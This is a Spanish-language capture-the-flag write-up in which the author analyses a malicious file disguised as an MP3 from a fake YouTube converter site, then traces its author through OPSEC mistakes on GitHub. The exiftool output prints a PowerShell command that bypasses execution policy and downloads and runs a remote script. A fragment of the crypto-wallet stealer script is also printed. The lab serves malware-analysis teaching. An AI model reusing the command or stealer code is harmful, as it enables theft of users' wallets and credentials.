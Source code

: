 # Introducción 

Los dedos de McSkidy revoloteaban sobre el teclado y entrecerraba los ojos al ver el sitio web sospechoso que aparecía en su pantalla. Había visto docenas de campañas de malware como esta. Esta vez, el rastro la llevaba directamente a alguien que respondía al nombre "Glitch".

"Demasiado fácil", murmuró con una sonrisa burlona.

"Todavía tengo tiempo", dijo, inclinándose más cerca de la pantalla. "Tal vez haya más".

Lo que no sabía es que debajo de la superficie se escondía algo mucho más complejo que el simple nombre de usuario de un hacker. Este era solo el comienzo de una red enredada que desenredaba todo lo que creía saber.

# Objetivos de aprendizaje

- Aprender como investigar archivos maliciosos
- Aprender sobre OPSEC y fallos de OPSEC
- Entender como traquear y atribuir digitalmente identidades

# Investigar la web

La web que investigamos convierte los videos de youtube en MP3 deberemos meternos mas dentro y explorarla

![image](https://github.com/user-attachments/assets/c81c5638-a5fa-42c9-9128-ae5e2810f58a)

Este tipo de webs llevan mucho tiempo, ofrece una fomra de convertir a extracto de audio los videos de youtube siendo websites muy populares

Problemas:

- Malversación: Muchos sitios contienen anuncion que explotan vulnerabilidades de usuario
- Phishing Scam
- Bundled Malware

Vamos a coger un link de youtube y vamos a descargarlo una veez lo investigaremos.

 https://www.youtube.com/watch?v=dQw4w9WgXcQ

 ![image](https://github.com/user-attachments/assets/22243695-5336-49be-95b6-030635cbe512)

Una vez descargado nos iremos a Downoads y lo extraeremos

![image](https://github.com/user-attachments/assets/a167bb74-4f23-418b-9b7c-08b555e4efd9)

Para determinar el contenido del archivo

```
file song.mp3
```

Como podemos ver es n archivo de audio, nada parece sospechoso. La cosa es que tenemos otro arhcivo parece ser "somg.mp3"

```
file somg.mp3
```
Como vemos en un "MS windows Shortcul" Este archivo se usa para linkearlo con otro archivo o  aplicacion. Pudiendo ejecutar comandos de Windows

Vamos a utilizar Exiftool a ver si encontramos algo chulo

```
exiftool somg.mp3
```

```
ExifTool Version Number         : 11.88
File Name                       : somg.mp3
Directory                       : .
File Size                       : 2.1 kB
File Modification Date/Time     : 2024:10:30 14:32:52+00:00
File Access Date/Time           : 2024:12:10 09:59:59+00:00
File Inode Change Date/Time     : 2024:12:10 09:58:24+00:00
File Permissions                : rw-r--r--
File Type                       : LNK
File Type Extension             : lnk
MIME Type                       : application/octet-stream
Flags                           : IDList, LinkInfo, RelativePath, WorkingDir, CommandArgs, Unicode, TargetMetadata
File Attributes                 : Archive
Create Date                     : 2018:09:15 08:14:14+01:00
Access Date                     : 2018:09:15 08:14:14+01:00
Modify Date                     : 2018:09:15 08:14:14+01:00
Target File Size                : 448000
Icon Index                      : (none)
Run Window                      : Normal
Hot Key                         : (none)
Target File DOS Name            : powershell.exe
Drive Type                      : Fixed Disk
Volume Label                    : 
Local Base Path                 : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Relative Path                   : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Working Directory               : C:\Windows\System32\WindowsPowerShell\v1.0
Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
Machine ID                      : win-base-2019
```

Como podemos ver hay tenemos los comandos que quiere ejecutar con la power shell

- -ep Bypass -nop : Quita restricciones usuales
- DownloadFIle: Nos descarga un "IS.ps1" de un servidor remoto de una ruta remoto, una vez descargado lo mete y le cambia el nombre

Si visitamos el archivo en cuestión

```

function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Call the function to print the ASCII art
Print-AsciiArt

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}

[Output truncated for brevity]
```

El script recolecta información sensible de la victima, como wallets o credenciales guardadas en el navegador

## Buscar el código fuente

Despueés de nuestra investigación, podemos investigar aún más la página analizar el código buscar directorios, etc.

Sin embargo, en esta room lo haremos diferentes. Porque tenemos el codigo dl powershell y lo podemos buscar online o uqe nos de tips para el ejercicio

https://github.com/search?q="Created+by+the+one+and+only+M.M."&type=issues

Vemos una conversación entre los desarrolladores

https://github.com/Bloatware-WarevilleTHM/CryptoWallet-Search/issues/1

## Introducción a OPSEC

Esto es un caso de fallo de OPSEC, es un termino reconocido para la protección de información sensible.

- Reusar usuarios, email
- Usar metadatos identificables
- Publicar algo en github
- Fallar al usar VPN etc

GG!!


